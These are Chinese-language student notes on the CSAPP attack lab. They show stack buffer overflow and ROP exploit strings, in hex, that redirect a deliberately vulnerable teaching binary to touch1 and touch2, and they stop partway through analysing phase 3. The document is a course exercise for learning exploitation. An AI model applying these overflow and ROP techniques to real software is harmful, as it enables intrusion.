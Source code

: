 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。 
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image1.png)

## phase_2
touch2源代码
```
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
程序要求我们令val的值等于我们的cookie值才能通过，而val则是作为函数的第一个参数传入，也就是说只要让rdi寄存器的值等于cookie就可以了
使用ROPgadget找到如下gadget
```
0x000000000040141b : pop rdi ; ret
```
然后构造ROP链如下所示
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
完成phase_2
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image2.png)



## phase_3
touch3的源码
```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```
发现其调用了hexmathch函数，并将cookie和sval作为指针传入其中。

